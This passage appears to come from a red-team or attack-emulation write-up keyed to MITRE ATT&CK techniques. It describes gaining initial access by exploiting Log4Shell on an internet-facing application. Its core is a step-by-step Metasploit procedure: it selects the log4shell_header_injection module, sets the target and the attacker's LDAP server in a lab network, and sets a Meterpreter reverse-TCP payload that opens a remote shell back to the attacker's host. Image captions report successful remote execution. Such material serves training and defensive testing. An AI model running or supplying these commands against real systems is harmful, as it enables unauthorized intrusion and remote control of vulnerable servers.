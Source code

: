 # **Execution**

An API is used for communication between the control software and the hardware. \[T0871] <https://attack.mitre.org/techniques/T0871/> 


## Objective:

The goal of this step is for the attacker to gain initial access to the victim's network by exploiting a vulnerability in an application or service that is exposed to the internet.


## MITRE Technique: T0819 - Exploit Public-Facing Application

This technique involves using an exploit to take advantage of a weakness in an application that is accessible from the internet. This could be a web server, web application, or any other service that can be reached from outside the organization's network.


## Tools/Services:

1. **Metasploit Framework:** A powerful tool used for developing and executing exploit code against a remote target machine. It includes a large collection of exploits, payloads, and auxiliary modules.


#### **Tools/Services:**

- **Metasploit Framework:** Contains a module specifically for exploiting the Log4Shell vulnerability.


## Applying scenario:

#### **Step 2: Exploit the Vulnerability using Metasploit**<a id="step-2-exploit-the-vulnerability-using-metasploit"></a>

1. **Start Metasploit** Launch the Metasploit console in the attacker machine.

2. **Select the Log4Shell Exploit Module** Use the Log4Shell exploit module.

3. **Set the Target and Payload** Configure the target URL and the payload for the exploi.:

4. **Execute the Exploit** Run the exploit to send the malicious request.

```
# step 1
sudo msfconsole

# step 2
use exploit/multi/http/log4shell_header_injection  

# step 3
setg HTTP_HEADER X-Api-Version
setg RHOSTS <target-ip>  # 10.208.89.15
setg RPORT <target-port> # 8080
setg SRVHOST <host-server-ip> # 10.208.5.100
setg SRVPORT <host-server-port> # 1389
setg TARGETURI <target url> # /
setg HTTP_SRVPORT <target http_port> # 8080
setg LHOST <listening ip - host ip> # 10.208.5.100
setg payload java/meterpreter/reverse_tcp

#step 4
exploit

```

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXeh7p50-5d_oRKm24tuo1s6EdqTHlTk4KLA9h6AkCElp3TTX2Mm7hAEb05MdjOZh_xt_nOPQGl-siacPIyb-fau8j-xTJVLqe1VNvqXve1VhHXC0vwkuLF7ovMkGvcHVzx61G9vh6-0K1syvpRwCH0sGw8F?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 1:** Log4Shell exploit options after setting.

![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXftMI1u0FiMs2U11Z-LOdo11LZihx8KraHfZnYA7nIBS9eS-b6bdm52ihI9Cs6WGSoh8L3FmW3huJTYVVliSnJx6M9VKIhwXRoF7-z4x6TWD08v52OwynJXxyJUbGKQ6J8pJr5HPXXg3Hmb8BpAg6MDr70?key=ZVE4yllmhIbKOidz4k1V_g)

**Img 2:** Log4Shell exploit execution with successful remote execution.

